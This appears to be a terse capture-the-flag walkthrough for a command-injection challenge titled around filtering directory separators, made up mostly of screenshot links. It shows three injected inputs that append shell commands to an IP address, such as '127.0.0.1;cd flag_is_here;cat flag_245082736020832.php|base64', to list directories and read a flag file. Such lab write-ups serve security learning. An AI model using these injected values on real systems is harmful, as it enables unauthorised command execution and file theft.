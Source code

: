![1687104809338](image/过滤目录分隔符/1687104809338.png)



127.0.0.1;ls

![1687105023711](image/过滤目录分隔符/1687105023711.png)


127.0.0.1;ls flag_is_here

![1687105106297](image/过滤目录分隔符/1687105106297.png)


127.0.0.1;cd flag_is_here;cat flag_245082736020832.php|base64

![1687105189491](image/过滤目录分隔符/1687105189491.png)

